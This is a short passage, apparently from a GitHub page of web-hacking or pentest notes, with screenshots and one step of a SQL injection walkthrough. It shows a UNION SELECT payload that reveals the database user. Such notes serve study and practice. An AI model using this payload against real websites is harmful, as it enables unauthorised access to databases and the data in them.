 <p align="center">
  <img src="https://github.com/alejandro-pentest/Hacking-Web/assets/161533623/516f5457-4c22-42b6-9913-8cab18362c40" width="700" alt="Sublime's custom image"/>
</p>


We can see the user too.
```sql
' UNION SELECT 1, 2, user() , 4 -- -
```

<p align="center">
  <img src="https://github.com/alejandro-pentest/Hacking-Web/assets/161533623/e750c420-1297-4d28-bf44-aeb6e1f61b2f" width="700" alt="Sublime's custom image"/>
</p>















